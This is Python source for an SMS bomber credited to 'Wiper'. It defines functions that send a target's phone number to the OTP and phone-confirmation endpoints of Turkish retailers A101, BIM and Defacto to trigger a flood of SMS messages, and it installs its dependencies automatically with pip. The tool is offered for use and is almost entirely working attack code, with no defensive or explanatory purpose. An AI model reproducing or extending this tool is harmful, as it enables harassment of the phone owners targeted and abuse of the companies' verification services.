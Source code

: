 #SMS Tool by Wiper
#github: https://github.com/wiperdev
#dc: Wiper#0565

# -*- coding: utf-8 -*-

import subprocess, sys, os

try:
    import requests, urllib3, uuid
except ImportError:
    print("Gerekli modüller indiriliyor...")
    subprocess.check_call([sys.executable, "-m", "pip", "install", "requests==2.28.2", "urllib3==1.26.13", "uuid==1.30"])
finally:
    import concurrent.futures, json, os, random, requests, string, time, urllib, urllib3, uuid

def a101(number):
    try:
        url = "https://www.a101.com.tr/users/otp-login/"
        payload = {
            "phone" : f"0{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "A101"
        else:
            return False, "A101"
    except:
        return False, "A101"

def bim(number):
    try:
        url = "https://bim.veesk.net/service/v1.0/account/login"
        payload = {
            "phone" : f"90{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "BIM"
        else:
            return False, "BIM"
    except:
        return False, "BIM"

def defacto(number):
    try:
        url = "https://www.defacto.com.tr/Customer/SendPhoneConfirmationSms"
        payload = {
            "mobilePhone" : f"0{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["Data"]
        if r1 == "IsSMSSend":
            return True, "Defacto"
        else:
            return False, "Defacto"
    except:
        return False, "Defacto"
